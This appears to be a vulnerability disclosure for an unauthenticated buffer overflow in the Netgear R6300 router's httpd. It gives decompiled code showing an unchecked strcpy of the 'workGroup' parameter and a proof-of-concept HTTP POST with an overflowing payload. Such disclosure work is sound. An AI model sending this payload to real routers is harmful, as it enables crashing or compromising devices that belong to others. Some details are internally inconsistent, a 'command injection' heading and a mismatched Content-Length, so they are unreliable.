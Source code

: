 # Buffer Overflow Vulnerability in `smb_group_name`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6300 Router                                         |
| Firmware Version     | V1.0.2.80_1.0.59                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`USBAdvCgiMain` → `acosNvramConfig_set` → `samba_writeSmbConf`) |
| Prerequisites        | No authentication required; attacker must supply crafted input via web interface parameter `workGroup` |

2. Exploitation Path

```c
// httpd
int __fastcall USBAdvCgiMain(int a1, int a2)
{
  ...
  char v70[256]; // [sp+E4h] [-20Ch] BYREF
  ...
  websGetVar(a1, "workGroup", v70);
  acosNvramConfig_set("smb_group_name", v70);
  ...
}

int samba_writeSmbConf()
{
  FILE *v0; // $v0
  FILE *v1; // $s2
  const char *v3; // $v0
  ...
  char v21[64]; // [sp+10h] [-10518h] BYREF
  ...

  memset(v21, 0, sizeof(v21));
  ...
  v3 = (const char *)acosNvramConfig_get("smb_group_name");
  strcpy(v21, v3);
  ...
}
```

3. **Vulnerable Binaries:** The vulnerability resides in the `httpd` binary.

4. 0-Day Command Injection Exploitation Path: In the `httpd` binary, the `USBAdvCgiMain` function at line 7 invokes `websGetVar(a1, "workGroup", v70)` to receive input. Although a 255-byte length limit is enforced, no additional validation is applied. The input is then stored via `acosNvramConfig_set("smb_group_name", v70)` at line 8. Subsequently, the `samba_writeSmbConf` function retrieves this value at line 23 using `v3 = (const char *)acosNvramConfig_get("smb_group_name")`, and copies it into the destination buffer `v21` via `strcpy(v21, v3)` at line 24. Since the buffer `v21` has a size of only 64 bytes, this leads to a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/USBAdvCgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Connection: close

workGroup=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```